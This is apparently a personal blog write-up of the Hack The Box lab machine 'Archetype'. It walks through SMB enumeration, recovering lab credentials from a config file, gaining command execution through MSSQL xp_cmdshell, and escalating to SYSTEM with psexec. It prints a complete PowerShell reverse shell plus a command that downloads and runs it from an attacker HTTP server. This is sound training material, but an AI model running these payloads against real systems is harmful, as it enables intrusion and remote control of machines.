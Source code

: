 ```yaml
---
title: Archetype
date: 2021-03-15
hero: /images/content/posts/hack-the-box/archetype.png
categories:
  - hack-the-box
tags:
  - windows
  - powershell
  - mssql
---
```


This was a good box to get back in the swing of things, it gave me a good challenge, and reminded me of how difficult it can be to google for Windows enum tools. Besides that, it was a good reminder of how to interact with SMB and showed me a new place to look for user command history in Windows.

## Tools

- nmap
- netcat
- mssqlclient

## Recon

First, we need to check the open ports on this machine. We can use `nmap` to do check for these. I use the command `nmap -sV -sS -p- archetype.htb -oA nmap/archetype`, and we got quite a few ports open!

```
# Nmap 7.91 scan initiated Mon Mar 15 15:22:53 2021 as: nmap -sV -sS -p- archetype.htb -oA nmap/archetype
Nmap scan report for archetype.htb (10.10.10.27)
Host is up (0.035s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 15:25:30 2021 -- 1 IP address (1 host up) scanned in 156.36 seconds
```

We have quite a few consecutive ports open in the range `49664-49669`. There is also a server open on port 445 and what looks like some API endpoints open on `5985` and `47001`. For now let's check to see if there is anything we can see through anonymous login via `smb`. What is `smb`? Well, `smb` or Server Message Block is used for remote communication and enables users to view, share, and edit files. This means that if for some reason anonymous login is allowed, we might be able to see some files, if we are lucky maybe even sensitive ones.

## Foothold

To check out if `smb` allows for anonymous access I am going to use the `smbclient`, here it is `smbclient -N -L \\archetype.htb\`. Let's break it down, `-N` means no-password, this will not ask us for a password, next we have `-L`, this gets the list of shares there are available on the host. Now let's run it.

```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Looks like this machine has four shares, but the shares `ADMIN$`, `C$`, and `IPC$` are all default shares. The one we are interested in is `backups`. To examine this share use the command `smbclient -N \\archetype.htb\backups`, notice that now we are not listing the shares and we specified the share at the end of the path. Once we are connected use the `ls` command to list the files in the share. Interestingly enough there is a file called `prod.dstConfig`, config files are good they can tell us how the machines were set up, and sometimes can leak credentials ;).

```
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

		10328063 blocks of size 4096. 8257544 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (4.1 KiloBytes/sec) (average 4.1 KiloBytes/sec)
smb: \> exit
```

Now that we have the file let's take a look at what is inside.

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Would ya look at that, there are some account credentials for what looks like the `sql` server running on port `1433`. We can connect to the `sql` server using the client included with [Impacket](https://github.com/SecureAuthCorp/impacket). I cloned this repo into a directory called `gitclones` in my home directory. The command I used to connect is:

```
python ~/gitclones/impacket/examples/mssqlclient.py -port 1433 ARCHETYPE/sql_svc:M3g4c0rp123@archetype.htb -windows-auth
```

This specifies the port as `1433`, although I believe this is the default port, and then includes the domain, username, password, and ip. Finally the `-windows-auth` flag specifies that we want to use windows authentication.

## User

If we run the command `help` it will tell us some commands we have at our disposal.

```
SQL> help

     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     ! {cmd}                    - executes a local shell cmd
```

Well look at that, the command `xp_cmdshell` might let us execute code on the machine if we have the correct permissions. Let's enable it and see if we do.

```
SQL> enable_xp_cmdshell
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> xp_cmdshell powershell whoami
output

--------------------------------------------------------------------------------

archetype\sql_svc

NULL

SQL>
```

Well we can execute commands, let's try and get a reverse shell up and running. copy the following code into a file called `rv.ps1`. Replace the IP address with yours connected to HTB and the port can be anything you like.

```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.202",1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Then start a simple http server in the same directory using `python -m http.server`, this will host an http server on port 8000. Finally, start listening on for the reverse shell using the command `nc -lvnp [PORT]`. Then spawn it.

`xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.202:8000/rv.ps1\");"`

You should catch the shell on the terminal listening with netcat. From the shell we can navigate to the `user.txt` file. It is going to be in the `C:\Users\sql_svc\Desktop` directory.

## Root

Now let's check out the powershell history in `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`. Once we see that we get the following.

`net.exe use T: \Archetypeackups /user:administrator MEGACORP_4dm1n!!`

Looks like credentials to the administrators account! To access the account we can use `psexec.py` from Impacket's tools. Here is the command I used `python ~/gitclones/impacket/examples/psexec.py administrator@archetype.htb`. Once we authenticate:

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on archetype.htb.....
[*] Found writable share ADMIN$
[*] Uploading file CrWnXMou.exe
[*] Opening SVCManager on archetype.htb.....
[*] Creating service INdq on archetype.htb.....
[*] Starting service INdq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Again the `root.txt` file is on the Administrator's desktop.
